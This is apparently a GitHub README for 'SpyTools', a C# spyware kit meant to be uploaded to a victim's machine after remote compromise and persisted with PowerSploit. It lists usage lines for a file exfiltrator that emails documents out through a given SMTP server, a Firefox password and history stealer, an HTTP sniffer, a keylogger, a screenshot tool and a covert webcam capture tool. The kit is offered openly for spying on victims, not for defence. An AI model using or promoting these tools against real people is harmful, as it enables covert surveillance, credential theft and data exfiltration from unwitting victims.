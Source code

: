 # SpyTools 1.0
<br/>
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
<br/>
<br/>
List of tools:
<br/>
EmailSender: get all files with some extensions in the current path, and send an email attaching them.
<br/>
Usage: EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" "jpg,txt,png"
<br/>
<br/>
FoxyStealer: copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
<br/>
Usage: FoxyStealer.exe
<br/>
<br/>
HTTPSniffer: Start to capture all HTTP traffic, and flush them into a txt file.
<br/>
Usage: HTTPSniffer.exe ["OutputFileName" NumericIntervalToFlushTrafficToDisk]
<br/>
<br/>
Keylogger: Start to capture all keys, and flush them into a file.
<br/>
Usage: Keylogger.exe ["OutputFileName" NumericIntervalToFlushKeysToDisk]
<br/>
<br/>
Printscreen: Take a screenshot.
<br/>
Usage: Printscreen.exe ["OutputFileName"]
<br/>
<br/>
WebcamSnap: Take a picture from the webcam.
<br/>
Usage:cWebcamSnap.exe ["OutputFileName"]